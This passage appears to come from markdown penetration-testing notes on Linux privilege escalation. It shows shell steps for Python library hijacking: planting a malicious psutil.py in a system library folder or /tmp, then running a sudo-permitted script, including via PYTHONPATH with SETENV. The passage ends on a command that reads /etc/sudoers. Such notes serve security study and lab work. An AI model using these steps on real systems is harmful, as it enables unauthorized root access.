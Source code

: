         cd /usr/lib/python3.8

        vim psutil.py
        # we can create a malicious module with our own 'virtual_memory()' function
        # it should have the same name as the module and the same function

        sudo /usr/bin/python3 mem_status.py
        # this runs the malicious code
        ```

    * PYTHONPATH env var:

        ```sh
        # PYTHONPATH env var shows which directories Python can search for modules to import

        sudo -l
        # (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
        # SETENV shows we can set the env var with the python3 binary

        cd /tmp

        vim psutil.py
        # create a malicious module in any folder with same name and same function as benign script

        # execute the hijacked script
        sudo PYTHONPATH=/tmp/ /usr/bin/python3 ./mem_status.py
        # the binary imports the malicious module from /tmp
        ```

## Recent 0-Days

* Sudo:

    ```sh
    # from sudoers file, check which users/groups are allowed to run specific programs
    sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
